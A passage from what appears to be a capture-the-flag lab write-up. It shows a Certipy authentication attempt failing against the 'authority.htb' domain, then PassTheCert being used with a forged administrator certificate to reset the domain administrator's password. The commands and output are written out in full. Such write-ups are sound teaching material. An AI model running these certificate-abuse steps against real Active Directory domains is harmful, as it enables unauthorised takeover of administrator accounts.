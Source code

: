 We are unable to request for a TGT using this certificate however.&#x20;

```
$ certipy auth -pfx 'administrator.pfx' -username administrator -domain authority.htb -dc-ip 10.129.9.12 
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

This means that Rubeus would fail as well. In this case, let's try to Pass the Certificate to reset the administrator's password.&#x20;

{% embed url="https://github.com/AlmondOffSec/PassTheCert" %}

First, generate the key and cert files:

```
$ certipy cert -pfx administrator.pfx -nocert -out admin.key
$ certipy cert -pfx administrator.pfx -nokey -out admin.crt
```

Then, reset the administrator password:

```
$ python3 passthecert.py -action modify_user -crt admin.crt -key admin.key -domain authority.htb -dc-ip 10.129.8.242 -target administrator -new-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully changed administrator password to: R08Fv3VKaSyyI1tJ1FYi1mAEGklJvWFy
```

<figure><img src="../../.gitbook/assets/image (750).png" alt=""><figcaption></figcaption></figure>

Rooted!
